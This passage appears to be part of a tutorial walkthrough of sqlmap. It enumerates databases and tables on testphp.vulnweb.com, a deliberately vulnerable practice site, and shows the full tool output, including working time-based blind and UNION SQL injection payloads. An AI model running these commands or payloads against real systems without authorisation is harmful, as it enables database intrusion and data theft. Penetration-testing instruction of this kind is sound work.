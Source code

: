    `--dbs`: enumerate DBMS database

   ```shell
   ┌──(dyl4n㉿kali)-[/]
   └─$ sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" --dbs
           ___
          __H__
    ___ ___[.]_____ ___ ___  {1.7.2#stable}
   |_ -| . [']     | .'| . |
   |___|_  [,]_|_|_|__,|  _|
         |_|V...       |_|   https://sqlmap.org

   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

   [*] starting @ 05:02:21 /2023-04-20/

   [05:02:21] [INFO] resuming back-end DBMS 'mysql'
   [05:02:24] [INFO] testing connection to the target URL
   sqlmap resumed the following injection point(s) from stored session:
   ---
   Parameter: test (GET)
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: test=query' AND (SELECT 8297 FROM (SELECT(SLEEP(5)))EfaF) AND 'ekJi'='ekJi

       Type: UNION query
       Title: Generic UNION query (NULL) - 3 columns
       Payload: test=query' UNION ALL SELECT NULL,CONCAT(0x7170627671,0x644b7762646447676e584f55746d49474a424d47796457714777664474694d624163684657445368,0x71626a7671),NULL-- -
   ---
   [05:02:24] [INFO] the back-end DBMS is MySQL
   web server operating system: Linux Ubuntu
   web application technology: Nginx 1.19.0, PHP 5.6.40
   back-end DBMS: MySQL >= 5.0.12
   [05:02:24] [INFO] fetching database names
   available databases [2]:
   [*] acuart
   [*] information_schema

   [05:02:24] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'

   [*] ending @ 05:02:24 /2023-04-20/
   ```

3. After successfully determining the database name, we'll enumerate database tables from it

   ```shell
   sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" -D acuart --tables
   ```

   `-D`: DBMS database name to enumerate
